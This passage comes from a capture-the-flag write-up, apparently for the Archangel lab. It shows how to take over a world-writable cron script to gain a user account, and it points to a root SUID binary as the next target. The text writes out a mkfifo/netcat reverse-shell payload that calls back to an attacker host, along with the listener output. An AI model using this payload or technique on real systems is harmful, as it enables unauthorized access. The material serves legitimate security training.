 Here, we can see that a shell script named as `helloworld.sh` in the `/opt` directory is being executed as user archangel. We can check the permissions of that file and try to use it to gain access to the system as user archangel.

```bash
www-data@ubuntu:/home/archangel/myfiles$ ls -la /opt/helloworld.sh
ls -la /opt/helloworld.sh
-rwxrwxrwx 1 archangel archangel 66 Nov 20 10:35 /opt/helloworld.sh
```

From the output, we can see that all the `rwx` permissions are given to others. So, we can edit this file, add a payload in the bash script to create a reverse shell as user archangel. For this we can again use the same payload but change the port number

```bash
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your_IP> 4445 >/tmp/f" > /opt/helloworld.sh
```

 As soon as the cronjob gets executed we get our reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.56.217] 51610
sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ id
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
$ pwd
/home/archangel
```

Again, we can use the `python3` one liner code to make this shell look better. Then we can attempt to access the restricted files.

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
archangel@ubuntu:~$ cd secret
cd secret
archangel@ubuntu:~/secret$ ls -la
ls -la
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20 15:22 ..
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
```

In the `secret` directory, we get the `user2.txt` flag as well. But apart from that we can see an interesting file named `backup`. It is interesting because its SUID bit is set and moreover it is owned by `root`. So, if we manage to exploit this binary then we can get access to the machine as `root`. 

